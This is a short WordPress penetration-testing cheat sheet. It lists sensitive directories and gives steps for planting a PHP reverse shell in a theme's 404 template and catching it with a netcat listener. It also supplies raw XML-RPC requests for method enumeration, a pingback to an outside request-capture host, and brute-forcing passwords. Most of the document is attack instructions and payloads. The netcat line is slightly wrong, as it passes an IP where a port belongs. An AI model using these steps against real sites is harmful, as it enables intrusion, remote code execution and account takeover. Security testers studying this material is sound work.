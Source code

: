 ```yaml
---
title: WordPress Pentesting
desc: Penetration testing on WordPress.
tags: [CMS, Web, WordPress]
alts: [Wpscan]
website:
render_with_liquid: false
---
```


## Common Directories

```
/author/admin/
/index.php/author/admin/
/license.txt
/readme.html
/wp-admin/
/wp-admin/upload.php
```

<br />

## Reverse Shell Injection (login required)

```
1. Access to dashboard (/wp-admin/).
2. Move to "Appearance" and select theme named "Twenty Seventeen".
3. Click "Theme Editor" or "Editor" in the "Appearance" section.
4. In the theme editor, click "404 Template (404.php)" on the right.
5. Copy and paste the code for Reverse Shell (https://github.com/pentestmonkey/php-reverse-shell).
6. Edit "IP" and "Port" in the code.
7. In your terminal, run 'nc -lvnp <IP>'.
8. Browse https://vulnerable.com/wp-content/themes/twentyseventeen/404.php
```

<br />

## XML-RPC (xmlrpc.php)

### 1. Get all methods

```xml
POST /xmlrpc.php HTTP/1.1
Host: vulnerable.com
...

<?xml version="1.0" encoding="utf-8"?> 
<methodCall> 
<methodName>system.listMethods</methodName> 
<params></params> 
</methodCall>
```

### 2. Ping back

Use [PostBin](https://www.toptal.com/developers/postbin/).

```xml
POST /xmlrpc.php HTTP/1.1
Host: vulnerable.com
...

<?xml version="1.0" encoding="utf-8"?>
<methodCall>
<methodName>pingback.ping</methodName>
<params>
<param><value><string>https://www.toptal.com/developers/postbin/xxxxxxxxxxxxx-xxxxxxxxxxxxx</string></value></param>
<param><value><string>http://vulnerable.com</string></value></param>
</params>
</methodCall>
```

### 3. Brute force users

It is recommended to use Burp Intruder.

```xml
POST /xmlrpc.php HTTP/1.1
Host: vulnerable.com
...

<?xml version="1.0" encoding="UTF-8"?>
<methodCall> 
<methodName>wp.getUsersBlogs</methodName> 
<params> 
<param><value>username</value></param> 
<param><value>$password$</value></param> 
</params> 
</methodCall>
```